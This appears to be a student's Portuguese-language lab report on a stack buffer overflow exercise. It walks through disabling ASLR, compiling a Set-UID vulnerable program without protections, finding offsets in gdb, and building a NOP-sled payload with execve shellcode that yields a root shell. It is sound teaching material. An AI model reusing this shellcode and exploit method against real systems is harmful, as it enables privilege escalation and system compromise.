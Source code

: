 # Buffer Overflow

## Environment Setup

> Numa primeira fase, desligamos algumas das proteções do sistema operativo, como por exemplo a randomização do espaço de endereços e a proibição ao nível da shell de ser executada por processos com Set-UID.
>```bash
> $ sudo sysctl -w kernel.randomize_va_space=0
> $ sudo ln -sf /bin/zsh /bin/sh
>```

## Task 1: Getting Familiar with Shellcode

> Primeiro executamos um programa simples que abre uma shell utilizando o commando `execve`:
> ```c
> char *name[2];
> name[0] = "/bin/sh";
> name[1] = NULL;
> execve(name[0], name, NULL);
> ```
> De seguida, fizemos o mesmo utilizando o shellcode respetivo e invocando-o desde a stack, tanto para 32 bits como para 64 bits. <br><br>
> Em todos os casos, foi aberta uma shell no mesmo diretório em que foi executado o programa.

## Task 2: Understanding the Vulnerable Program

> Inicialmente estudamos o código do programa com uma vulnerabilidade *buffer-overflow*. Reparamos que tenta-se copiar para um buffer de tamanho máximo de 100 bytes, um array de carateres que pode ter até 517 bytes. Como o `strcpy` não verifica os limites do buffer, acaba por ocorrer overflow. <br><br>
> Para o programa vulnerável, desativamos o *StackGuard* e as proteções contra a execução de código invocado desde a stack. Para além disso, mudamos o owner do programa para `root` e ativamos o `Set-UID`
> ```bash
> $ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
> $ sudo chown root stack
> $ sudo chmod 4755 stack
> ```

## Task 3: Launching Attack on 32-bit Program

> Para fazer uso da vulnerabilidade, primeiro criamos o ficheiro `badfile` vazio e executamos o código vulnerável em modo debug, de modo a descobrir a posição do endereço de retorno da função `bof()` relativamente ao inicio do buffer. Para isso usámos `gdb` para fazer debug e colocamos um breakpoint na função `bof()`.
> ```bash
> $ touch badfile # Criar o ficheiro badfile vazio
> $ gdb stack-L1-dbg # Executar o programa em modo debug
> ...
> gdb-peda$ b bof # Criar um breakpoint na função bof
> ...
> gdb-peda$ run # Executar o programa até parar no breakpoint
> ...
> gdb-peda$ next # Avançar algumas intruções até que o registo ebp passe de apontar para a stack frame da função bof(), visto que antes ainda apontava para a stack frame da função que chamou bof()
> ...
> gdb-peda$ p $ebp # Obter o valor de ebp
> $1 = (void *) 0xffffca98
> gdb-peda$ p &buffer # Obter o endereço do início do buffer
> $2 = (char (*)[100]) 0xffffca2c
> ```
> Após obter os endereços necessários, falta inserir no ficheiro `badfile` o conteúdo que pretendemos inserir no buffer (shellcode e o endereço de retorno que aponta para esse shellcode). Para isto usamos o programa fornecido em python, com as seguintes alterações <br> <br>
> Na variável `shellcode` inserimos o shellcode em 32-bits que executa uma shell
> ```python
> shellcode= (
>  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
>  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
>  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
> ).encode('latin-1')
> ```
> Criou-se uma array de bytes de tamanho 517 (tamanho máximo da array de carateres lida do ficheiro pelo programa vulnerável), em que todos os bytes são NOP (0x90)
> ```python
> content = bytearray(0x90 for i in range(517))
> ```
> Colocou-se o shellcode no final da array de bytes
> ```py
> start = 517-len(shellcode)  
> content[start:start + len(shellcode)] = shellcode
> ```
> Calculou-se o novo endereço de retorno que aponta para o shell code a executar
> ```py
> ret    = 0xffffca98 + start 
> ```
> Utilizando os 2 endereços obtidos no debug, calculou-se a localização do endereço de retorno relativamente ao inicio do array (offset) e colocou-se o novo endereço de retorno que aponta para o shellcode calculado anteriormente (ret)
> ```py
> offset = 0xffffca98 - 0xffffca2c + 4 
> L = 4  
> content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
> ```
> Executou-se o programa e este gerou o ficheiro `badfile`. <br><br>
> Finalmente, executou-se o programa vulnerável que provocou o buffer overflow e lançou uma shell com permissões root, tal como previsto. <br> <br>
> ![Buffer Overflow](../Images/lab5task3.png)